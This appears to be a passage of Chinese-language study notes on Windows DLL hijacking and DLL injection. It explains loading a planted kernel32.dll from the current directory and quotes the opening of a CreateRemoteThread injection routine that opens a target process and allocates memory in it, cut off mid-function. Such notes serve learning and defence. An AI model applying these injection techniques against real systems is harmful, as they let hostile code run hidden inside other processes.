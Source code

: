 ![](./img/23liuc.png)              
* DLL劫持
  * 加载dll,如果当前目录下有，就加载；如果没有，就去系统文件夹下查找
  * hacker在当前目录下放一个kernel32.dll，然后这个kernel32.dll会再去load系统下的kernel32.dll
> [dll inject git-hub参考](https://github.com/fdiskyou/injectAllTheThings)
> [CreateRemoteThread function](https://docs.microsoft.com/zh-cn/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread?redirectedfrom=MSDN)

> [CreateRemoteThread dll inject 参考代码](https://github.com/fdiskyou/injectAllTheThings/blob/master/injectAllTheThings/t_CreateRemoteThread.cpp)、
```cpp
#include <stdio.h>
#include <Windows.h>
#include <tlhelp32.h>
#include "fheaders.h"

DWORD demoCreateRemoteThreadW(PCWSTR pszLibFile, DWORD dwProcessId)
{
	// Calculate the number of bytes needed for the DLL's pathname
	DWORD dwSize = (lstrlenW(pszLibFile) + 1) * sizeof(wchar_t);

	// Get process handle passing in the process ID
  //PROCESS_VM_WRITE,    //对内存进行写入
	HANDLE hProcess = OpenProcess(
		PROCESS_QUERY_INFORMATION |
		PROCESS_CREATE_THREAD |
		PROCESS_VM_OPERATION |
		PROCESS_VM_WRITE,    
		FALSE, dwProcessId);
	if (hProcess == NULL)
	{
		wprintf(TEXT("[-] Error: Could not open process for PID (%d).\n"), dwProcessId);
		return(1);
	}

	// Allocate space in the remote process for the pathname
  // 给这段进程分配一个内存
  // VirtualAlloc给别的进程分配内存
	LPVOID pszLibFileRemote = (PWSTR)VirtualAllocEx(hProcess, NULL, dwSize, MEM_COMMIT, PAGE_READWRITE);
	if (pszLibFileRemote == NULL)
	{
```